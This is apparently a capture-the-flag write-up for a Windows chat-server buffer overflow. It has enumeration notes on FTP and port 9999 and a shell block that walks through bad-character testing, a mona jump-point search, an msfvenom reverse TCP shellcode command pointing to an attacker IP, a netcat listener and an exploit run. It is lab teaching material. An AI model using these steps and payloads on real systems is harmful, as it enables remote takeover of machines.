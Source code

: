 ```shell

#generate bytearray using mona

#generate badchars
python3 badchars.py

#copy badchars output to payload variable in exploit script
#and run exploit again
python3 exploit.py
#note the ESP register value, and use it in mona command

#this gives us 'unmodified' message
#which means only nullbyte is badchar

#we can check essfunc.dll using mona
#and search for jump point

#after finding jump point, we have to generate shellcode
#using msfvenom
msfvenom -p windows/shell_reverse_tcp LHOST=10.14.31.212 LPORT=4444 EXITFUNC=thread -b "\xdf\x14\x50\x62" -f c

#copy shellcode to payload variable value in exploit script
#edit exploit to include victim ip instead of windows ip
#retn variable should have value of jump point address
#add padding as well
vim exploit.py

nc -nvlp 4444
#setup listener

python3 exploit.py
#run exploit against target machine
#we get reverse shell as root on listener
```

* Open ports & services:

  * 21 - ftp
  * 3389 - ssl/ms-wbt-server
  * 9999 - abyss

* We can start with ftp enumeration; anonymous login is allowed.

* After turning passive mode off and switching to binary mode, we can see that we have two files - chatserver.exe and essfunc.dll - we can take a look at both these files.

* We can try to enumerate port 9999 - using netcat, we can interact with it by entering our username and messages.

* The service on port 9999 behaves like a chatserver, and given the clue, it is possible that the .exe and .dll files are related to the chatserver service.

* We can now attempt to reverse-engineer chatserver.exe with the help of Immunity Debugger (in Windows machine).
